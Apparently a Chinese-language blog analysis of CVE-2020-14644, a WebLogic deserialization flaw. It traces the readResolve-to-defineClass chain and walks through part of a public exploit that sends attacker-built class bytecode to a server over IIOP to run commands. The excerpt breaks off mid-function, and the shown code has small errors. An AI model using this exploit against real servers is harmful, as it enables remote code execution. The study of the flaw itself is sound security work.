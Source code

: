 RemoteConstructor类实现了ExternalizableLite接口，而ExternalizableLite接口继承了Serializable，因此RemoteConstructor类可以进行序列化。

RemoteConstructor类中还有readResolve函数，readResolve函数在readObject函数后执行，该函数会会覆盖readobject的内容。而readResolve函数的调用链如下：

```
readResolve() ---> newInstance() ---> realize()
```

因此执行readResolve()函数的本质实际上是执行realize()函数。

##### RemotableSupport

realize()函数是RemotableSupport类的一个方法。

```java
public <T> T realize(RemoteConstructor<T> constructor) {
    ClassDefinition definition = this.registerIfAbsent(constructor.getDefinition());
    Class<? extends Remotable> clz = definition.getRemotableClass();
    if (clz == null) {
        synchronized(definition) {
            clz = definition.getRemotableClass();
            if (clz == null) {
                definition.setRemotableClass(this.defineClass(definition));
            }
        }
    }
}
```

其中clz的声明是带有transient的，因此clz = null，最终函数会执行`definition.setRemotableClass(this.defineClass(definition));`这句话。

关于defineClass在Java反序列化中的应用，[这篇文章可以参考](https://xz.aliyun.com/t/2272#toc-0)。

#### EXP代码分析

[代码地址](https://github.com/potats0/cve_2020_14644)

首先整个代码的核心是App.java。

一开始首先指定具体的ip、端口、执行的命令。紧接着将test.java中定义的新类test作为参数传给ClassIdentity。通过ClassPool库将test的classname和classname对应的bytes作为参数传入ClassDefinition中，构建RemoteConstructor对象constructor。最后将IIOP数据包发送给服务端。

```java
public class App {
    public static void main(String[] args) throws Exception {
        String host = argv[0];
        String port = argv[1]
        String command = argv[2];
        //ip、端口转换成context对象
        Context iiopCtx = getInitialContext(host, port);
        try{
            iiopCtx.lookup("UnicodeSec");
        }catch (Exception e){
            //test类传入ClassIdentity，对test类进行操作
            ClassIdentity classIdentity = new ClassIdentity(org.unicodesec.test.class);
            ClassPool cp = ClassPool.getDefault();
            //获取test类的name、byte stream
            CtClass ctClass = cp.get(org.unicodesec.test.class.getName());
            ctClass.replaceClassName(org.unicodesec.test.class.getName(), org.unicodesec.test.class.getName() + "$" + classIdentity.getVersion());
            //构建remote对象，其中ClassDefinition的两个参数最终会作为defineClass的两个参数重构ClassLoader并加载
            RemoteConstructor constructor = new RemoteConstructor(
                    new ClassDefinition(classIdentity, ctClass.toBytecode()),
                    new Object[]{}
            );
            String bindName = "UnicodeSec" + System.nanoTime();
            iiopCtx.rebind(bindName, constructor);
```